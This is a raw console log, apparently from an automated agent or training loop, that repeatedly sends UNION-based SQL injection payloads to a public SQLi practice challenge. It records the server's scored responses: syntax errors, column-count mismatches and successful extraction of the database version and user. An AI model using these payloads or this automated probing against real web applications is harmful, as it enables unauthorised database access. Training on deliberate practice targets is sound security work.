https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union s

  0%|          | 1713/1000000 [10:11:26<15592:46:50, 56.23s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1714/1000000 [10:11:27<11017:06:53, 39.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1715/1000000 [10:11:28<7790:38:15, 28.09s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union s

  0%|          | 1716/1000000 [10:11:53<7522:49:28, 27.13s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1717/1000000 [10:11:54<5341:55:26, 19.26s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1718/1000000 [10:11:55<3814:13:41, 13.75s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server respons

  0%|          | 1719/1000000 [10:13:18<9592:21:39, 34.59s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1720/1000000 [10:13:19<6802:12:37, 24.53s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1721/1000000 [10:13:20<4846:05:08, 17.48s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1722/1000000 [10:13:21<3469:24:37, 12.51s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1723/1000000 [10:13:22<2506:13:04,  9.04s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Serve

  0%|          | 1724/1000000 [10:13:47<3823:08:06, 13.79s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1725/1000000 [10:13:48<2753:57:57,  9.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1726/1000000 [10:13:49<2017:39:45,  7.28s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1727/1000000 [10:13:50<1497:00:28,  5.40s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1728/1000000 [10:13:51<1126:12:23,  4.06s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1729/1000000 [10:13:52<874:07:21,  3.15s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1730/1000000 [10:13:52<688:16:52,  2.48s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1731/1000000 [10:13:53<558:30:34,  2.01s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1732/1000000 [10:13:55<488:37:24,  1.76s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4,5--
https

  0%|          | 1733/1000000 [10:15:23<7689:45:37, 27.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?

  0%|          | 1734/1000000 [10:16:57<13203:02:34, 47.61s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1735/1000000 [10:16:58<9327:35:36, 33.64s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1736/1000000 [10:17:00<6684:01:03, 24.10s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1737/1000000 [10:17:01<4757:20:41, 17.16s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1738/1000000 [10:17:02<3417:01:46, 12.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1739/1000000 [10:17:03<2472:57:19,  8.92s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server

  0%|          | 1740/1000000 [10:17:57<6229:21:02, 22.46s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1741/1000000 [10:17:58<4444:22:08, 16.03s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1742/1000000 [10:17:59<3195:38:31, 11.52s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1743/1000000 [10:18:00<2318:53:34,  8.36s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1744/1000000 [10:18:01<1702:49:47,  6.14s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union s

  0%|          | 1745/1000000 [10:19:19<7664:48:38, 27.64s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 union select 1,user(),3,4 --


  0%|          | 1746/1000000 [10:19:38<6965:12:42, 25.12s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1747/1000000 [10:19:39<4952:34:19, 17.86s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1748/1000000 [10:19:40<3550:44:43, 12.81s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1749/1000000 [10:19:41<2564:01:28,  9.25s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 

  0%|          | 1750/1000000 [10:20:10<4216:35:04, 15.21s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server respons

  0%|          | 1751/1000000 [10:20:39<5360:02:23, 19.33s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1752/1000000 [10:20:40<3836:01:07, 13.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1753/1000000 [10:20:41<2765:00:24,  9.97s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union 

  0%|          | 1754/1000000 [10:21:33<6258:22:49, 22.57s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1755/1000000 [10:21:34<4459:48:55, 16.08s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1756/1000000 [10:21:35<3205:01:33, 11.56s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1757/1000000 [10:21:36<2328:11:35,  8.40s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1758/1000000 [10:21:37<1709:36:52,  6.17s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--


  0%|          | 1759/1000000 [10:23:01<8226:20:19, 29.67s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1760/1000000 [10:23:02<5836:18:28, 21.05s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1761/1000000 [10:23:03<4166:07:18, 15.02s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 uni

  0%|          | 1762/1000000 [10:23:10<3484:25:54, 12.57s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1763/1000000 [10:23:11<2514:28:07,  9.07s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1764/1000000 [10:23:12<1838:49:12,  6.63s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1765/1000000 [10:23:13<1371:28:03,  4.95s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.alter

  0%|          | 1766/1000000 [10:25:03<10171:46:54, 36.68s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union

  0%|          | 1767/1000000 [10:25:31<9386:44:32, 33.85s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1768/1000000 [10:25:32<6655:30:27, 24.00s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1769/1000000 [10:25:33<4741:14:36, 17.10s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server res

  0%|          | 1770/1000000 [10:25:40<3884:29:21, 14.01s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1771/1000000 [10:25:41<2879:01:31, 10.38s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1772/1000000 [10:25:42<2097:19:16,  7.56s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server res

  0%|          | 1773/1000000 [10:26:33<5707:56:13, 20.59s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1774/1000000 [10:26:35<4160:18:57, 15.00s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1775/1000000 [10:26:36<2996:14:13, 10.81s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response 

  0%|          | 1776/1000000 [10:26:54<3559:56:12, 12.84s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1777/1000000 [10:26:55<2569:59:17,  9.27s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3,4--
